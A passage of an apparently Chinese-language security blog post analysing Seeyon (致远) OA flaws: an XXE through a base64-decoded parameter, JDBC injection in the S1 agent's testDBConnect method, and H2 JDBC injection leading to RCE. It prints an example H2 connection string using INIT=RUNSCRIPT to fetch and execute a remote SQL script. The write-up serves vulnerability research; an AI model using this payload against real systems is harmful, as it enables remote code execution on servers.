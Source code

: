 **可控参数** **xmlValue，直接解base64然后就进xxe**造成漏洞。

按理说这么简单的漏洞，应该早就被爆出来滥用了，但我搜索了一下相应的内容，上一次致远oa爆出来xxe漏洞原理比这个复杂多了，而且还是组件漏洞。

由于实在找不到源码，所以我猜测这个漏洞可能有两个可能性

- **漏洞来自于某个部署时使用到的额外服务或者插件**
- **这个xxe漏洞是个第三方组件问题**，需要其他条件入口，原文不想提到这个入口所以没有写

不管咋说我的确是没有办法获得答案了，不过这不是这篇文章的重心，先往后看。

## 致远oa S1服务 后台jdbc注入

在原文中，这部分来自于agent.jar，简单来说就是一个开放到内网的服务，我查了一下应该是指这套**S1服务**。

在官网还可以查到这套系统，看上去应该是用于管理致远后台的平台，算是运维平台。这侧面也证明了**这套系统是一套独立的系统。**

在`com.seeyon.agent.sfu.server.apps.configuration.controller.ConfigurationController`可以找到对应的`testDBConnect`方法

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747347.png)

可以关注到相比原文当中的截图，现在加入了**对h2数据库连接的限制**

```python
params.put("dbUrl", dbUrl);
if (dbUrl.startsWith("jdbc:h2"))
  return JsonResult.success(StatusCodeEnum.FAILEDCODE.getKey(), ", null);
```

继续跟进到`testDBConnect`中

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747209.png)

从这里可以找到可以**根据dburl前缀自由连接远程jdbc**的方法，并允许**自定义链接驱动类**

## H2 jdbc注入导致RCE

这部分内容其实不算是这篇文章的重点致远oa的问题，一般来说到**jdbc注入**之后就是**利用方式**的问题了，但这里还是顺带提一下。

**关于jdbc的注入后利用方式**其实之前已经有过不少次相关的文章以及议题，下面这篇就是一篇总结的比较全的文章

- https://paper.seebug.org/1832/
- https://www.anquanke.com/post/id/203086

其实jdbc可控**后续导致的二次利用方案相当复杂**，由于这不是这篇文章的内容，所以我们直接跳到对应的位置来看看。

想要利用jdbc注入来调用H2进行进一步利用，其中有两个比较大的问题。

- **需要相应的配置参数才能命令执行**
- **由于不支持多行语句，需要找到能在单行里执行命令的方法**

**H2的攻击利用的是Spring Boot H2 console的一个特性**，通过控制h2数据库的连接url，我们可以迫使spring boot去**加载远程的sql脚本并执行命令**，类似下面这样的请求

```python
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/poc.sql'
```
